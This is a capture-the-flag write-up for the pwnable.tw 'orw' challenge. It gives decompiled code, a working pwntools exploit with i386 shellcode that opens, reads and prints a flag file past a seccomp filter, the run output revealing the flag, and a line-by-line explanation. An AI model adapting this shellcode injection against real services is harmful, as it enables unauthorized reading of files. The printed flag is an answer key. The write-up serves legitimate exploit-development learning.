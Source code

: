 # orw

**orw \[100 pts]**

Read the flag from `/home/orw/flag`.

Only `open` `read` `write` syscall are allowed to use.

`nc chall.pwnable.tw 10001`

```bash
$ ./orw
Give my your shellcode:shellcode
Segmentation fault (core dumped)
```

By just running it and the description, we know what to do. Just make a shellcode that have only open, read and write syscall and get the flag. But before doing anything (including the run actually) lets check the protection first to make it a habit when getting any pwn challenge.

```bash
$ file orw
orw: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=e60ecccd9d01c8217387e8b77e9261a1f36b5030, not stripped
```

```bash
$ checksec orw
[*] '/mnt/c/Users/hzqzz/Downloads/tmp/orw'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        No PIE (0x8048000)
    Stack:      Executable
    RWX:        Has RWX segments
    Stripped:   No
```

Decompiling in IDA

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  orw_seccomp();
  printf("Give my your shellcode:");
  read(0, &shellcode, 0xC8u);
  ((void (*)(void))shellcode)();
  return 0;
}
```

```c
unsigned int orw_seccomp()
{
  __int16 v1; // [esp+4h] [ebp-84h] BYREF
  char *v2; // [esp+8h] [ebp-80h]
  char v3[96]; // [esp+Ch] [ebp-7Ch] BYREF
  unsigned int v4; // [esp+6Ch] [ebp-1Ch]

  v4 = __readgsdword(0x14u);
  qmemcpy(v3, &unk_8048640, sizeof(v3));
  v1 = 12;
  v2 = v3;
  prctl(38, 1, 0, 0, 0);
  prctl(22, 2, &v1);
  return __readgsdword(0x14u) ^ v4;
}
```

#### Main Function:

1. **Shellcode Input** : Reads 200 bytes (`0xC8u`) of shellcode from stdin into a buffer.
2. **Execution** : Casts the shellcode buffer to a function pointer and executes it.

#### `orw_seccomp()` Function:

* **Seccomp Initialization** :
  * `prctl(38, 1, 0, 0, 0)` likely configures seccomp parameters (e.g., setting up a filter).
  * `prctl(22, 2, &v1)` enables strict seccomp mode (`PR_SET_SECCOMP`), restricting syscalls to those explicitly allowed by the filter.

Here's the exploit

```python
from pwn import *

context.arch = 'i386'
context.log_level = 'info'

shellcode = asm('''
    xor ecx, ecx            # O_RDONLY
    push 0x0                # null byte
    push 0x67616c66         # "flag"
    push 0x2f77726f         # "orw/"
    push 0x2f656d6f         # "ome/"
    push 0x682f2f2f         # "///h"
    mov ebx, esp            # "///home/orw/flag"
    mov eax, 5              # SYS_open
    int 0x80                # syscall(SYS_open, "///home/orw/flag", O_RDONLY)

    mov edx, 0x28           # length
    mov ecx, 0x0804a100     # buffer
    mov ebx, eax            # move file descriptor
    mov eax, 3              # SYS_read
    int 0x80                # syscall(SYS_read, fd, buff, length)

    mov edx, 0x28           # length
    mov ecx, 0x0804a100     # buffer
    mov ebx, 1              # STDOUT_FILENO
    mov eax, 4              # SYS_write
    int 0x80                # syscall(SYS_write, STDOUT_FILENO, buff, length)
''')

io = remote('chall.pwnable.tw', 10001)
io.sendlineafter(b'Give my your shellcode:', shellcode)
io.interactive()
```

```purebasic
$ python exploit.py
[+] Opening connection to chall.pwnable.tw on port 10001: Done
[*] Switching to interactive mode
FLAG{sh3llc0ding_w1th_op3n_r34d_writ3}
\x00[*] Got EOF while reading in interactive
```

First we are constructing the file name

```armasm
push 0x0                # Null terminator
push 0x67616c66         # "flag" (ASCII: 'f','l','a','g')
push 0x2f77726f         # "orw/" (ASCII: '/','w','r','o')
push 0x2f656d6f         # "ome/" (ASCII: '/','e','m','o')
push 0x682f2f2f         # "///h" (ASCII: '/','/','/','h')
mov ebx, esp            # ebx = pointer to "///home/orw/flag\x00"
```

`///home/orw/flag` is equivalent to `/home/orw/flag` in Unix systems. We add // to file the 4 bytes

```armasm
mov eax, 5              # SYS_open (syscall number)
xor ecx, ecx            # O_RDONLY (read-only mode)
int 0x80                # open("///home/orw/flag", O_RDONLY)
```

To open the file. The file descriptor is returned in `eax`.

```armasm
mov edx, 0x28           # Read 40 bytes (0x28 = 40 in decimal)
mov ecx, 0x0804a100     # Buffer address (fixed location, likely writable in the target binary)
mov ebx, eax            # ebx = file descriptor from SYS_open
mov eax, 3              # SYS_read
int 0x80                # read(fd, buffer, 40)
```

To reads up to 40 bytes from the file into the buffer at `0x0804a100`.

```armasm
mov edx, 0x28           # Write 40 bytes
mov ecx, 0x0804a100     # Buffer address
mov ebx, 1              # STDOUT_FILENO (file descriptor 1)
mov eax, 4              # SYS_write
int 0x80                # write(STDOUT_FILENO, buffer, 40)
```

Then write to Stdout. Outputs the buffer contents.
